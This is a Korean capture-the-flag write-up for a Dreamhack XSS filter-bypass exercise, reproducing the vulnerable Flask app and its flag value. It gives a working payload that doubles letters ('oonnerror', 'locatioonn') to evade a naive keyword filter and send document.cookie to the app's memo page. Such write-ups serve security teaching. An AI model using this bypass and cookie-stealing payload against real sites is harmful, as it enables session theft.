 Exercise: XSS Filtering Bypass에서 실습하는 문제입니다.  
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript:"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text

@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)

```
## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 얻어서 **xss_filter** 의 결과값을 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다.
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. xss_filter  
-> **script, on, javascript:** 를 대소문자 구분하지 않고 필터링한다.
2. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  

## 문제 모습  
<img src="1.jpg">  

여기가 메인페이지 '/' 이다.  
<img src="2.jpg">  

여기는 '/vuln' 인데, 여기서 주의깊게 봐야할 점은 param에 다음과 같은 코드가 들어가있다.  

```html
<img src=https://dreamhack.io/assets/img/logo.0a8aabe.svg>
```
다음과 같이 **script, on, javascript:** 가 없으므로 필터링이 되지 않는 모습을 볼 수 있다.  

## 문제 해결  
여기서 이전에 XSS 문제들을 풀었다면, **/memo?memo=document.cookie** 등을 통해 cookie를 memo에 적을 수 있다.  
즉, /vuln 에 있었던 예시인 **img** 태그를 활용할 수 있다.  
```html
<img src=test.jpg onerror="location.href='/memo?memo='+document.cookie">
```
이 코드를 그대로 사용한다면, **on** 이 필터링 되기 때문에 사용할 수 없다.  
여기서 사용할 수 있는 방법은, **oonn** 이런 식으로 2번 겹쳐서 쓰면 해결할 수 있다.  
**xss_filter** 함수를 보면, for문을 이용해서 필터링 된 문자를 공백문자로 바꾸기 때문에 **oonn -> on** 으로 바뀌는 것이다.  

<img src="3.jpg">

```html
<img src=test.jpg oonnerror="locatioonn.href='/memo?memo='+document.cookie">
```

<img src="4.jpg">  

따라서 정답은 **DH{81cd7cb24a49ad75b9ba37c2b0cda4ea}** 이다.